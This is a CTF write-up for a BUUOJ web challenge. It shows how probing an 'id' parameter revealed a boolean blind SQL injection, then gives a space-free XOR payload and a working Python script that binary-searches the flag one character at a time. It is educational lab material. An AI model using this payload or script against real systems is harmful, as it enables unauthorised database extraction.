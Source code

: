 ![[Pasted image 20221108085601.png]]
![[Pasted image 20221108085629.png]]

```php
id=1
```
> Hello, glzjin wants a girlfriend.


```php
id=2
```
> Do you want to be my girlfriend?


```php
id=3
```
> Error Occured When Fetch Result.

```php
id=0
```
> Error Occured When Fetch Result.


```php
id=1; show databases#
```
> SQL Injection Checked.

```php
id=abc
```
> bool(false)

搜索得知这题是传说中的布尔盲注
通过上面的尝试可知，对`id`的运算结果为`1`或`2`时返回对应的字符串，为其他数字时返回错误，为非数字时返回false，因此可利用这一点逐个判断出flag的每一个字符
```sql
id=0^(ascii(substr((select(flag)from(flag)),/*index*/,1))>/*特定值*/)
```
若后面的比较为真，则`0^1`为`1`，返回`Hello, glzjin wants a girlfriend.`
否则`0^0`为`0`，报错

通过`python`脚本来二分（顺便学下`requests`怎么用QwQ）
```python
import requests

url = 'http://b405dc5e-a9fb-4e52-9d5d-f10a343e2bbd.node4.buuoj.cn:81/index.php'

for i in range(1, 100):
    a = 0
    b = 127
    while a < b:
        mid = (a + b) // 2
        r = requests.post(
            url,
            data={'id':'0^(ascii(substr((select(flag)from(flag)),{},1))>={})'.format(i, mid)})
        if r.content[-2:] == b't.':
            b = mid
        else:
            a = mid + 1

    print(chr(a-1),sep='',end='',flush=True)

```
![[Pasted image 20221108173940.png]]
#Web #SQL注入 #布尔盲注